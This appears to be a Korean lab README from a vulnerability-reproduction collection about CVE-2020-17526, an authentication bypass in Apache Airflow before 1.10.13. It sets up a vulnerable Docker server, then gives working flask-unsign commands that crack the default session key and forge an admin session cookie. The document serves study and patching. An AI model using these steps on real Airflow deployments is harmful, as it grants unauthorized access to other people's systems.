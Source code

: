 # CVE-2020-17526

**Contributors**

-   [박준서(@DerekAlbertJun)](https://github.com/DerekAlbertJun)

<br/>

### 요약

-   Apache Airflow는 인증을 기본으로 필요로 하지 않지만, 관리자는 인증을 활성화할 수 있음.
-   버전 1.10.13 이전에는 기본 세션 보안 키를 사용하며, 이로 인해 인증이 활성화된 경우 임의의 사용자를 흉내 낼 수 있음.
-   공격자가 세션 키를 해독하여 임의의 사용자로 로그인하는 과정을 다룸.

<br/>

### 환경 구성 및 실행

-   Apache Airflow 1.10.10 서버를 실행하려면 다음 명령을 실행한다.
데이터베이스 초기화
‘docker compose run airflow-init‘

서비스 시작
’docker compose up –d‘
-   서버가 실행되면 웹 브라우저에서 ‘http://your-ip:8080’ 주소로 이동하여 Apache Airflow의 로그인 페이지를 확인할 수 있다. 이 서버는 인증이 필요하다.
-   공격 과정을 수행하기 위해 먼저 로그인 페이지로 이동하고, Cookie에서 세션 문자열을 가져온다.
‘curl –v http://localhost:8080/admin/airflow/login’
-    그런 다음 flask-unsign을 사용하여 세션 키를 해독한다.
‘flask-unsign –u –c [Cookie에서 가져온 세션]’
-    유효한 세션 키인 temporary_key를 얻는다. 이 키를 사용하여 user_id가 1인 새로운 세션을 생성한다.
‘flask-unsign –s —secret temporary_key –c “{’user_id’ : ‘1’, ‘_fresh’ : False, ‘_permanent’ : True}”’
-    마지막으로 이 생성된 세션을 사용하여 성공적으로 로그인한다.


<br/>

### 결과

![](result.png)

<br/>

### 정리

-   이 취약점은 Apache Airflow에서 인증 우회를 허용했기 때문에, 공격자가 인증된 사용자로 위장하여 시스템에 접근할 수 있는 문제를 발생시킵니다. 안전한 웹 서비스 운영을 위해서는 이러한 취약점을 주기적으로 확인하고 패치하는 것이 중요합니다. 
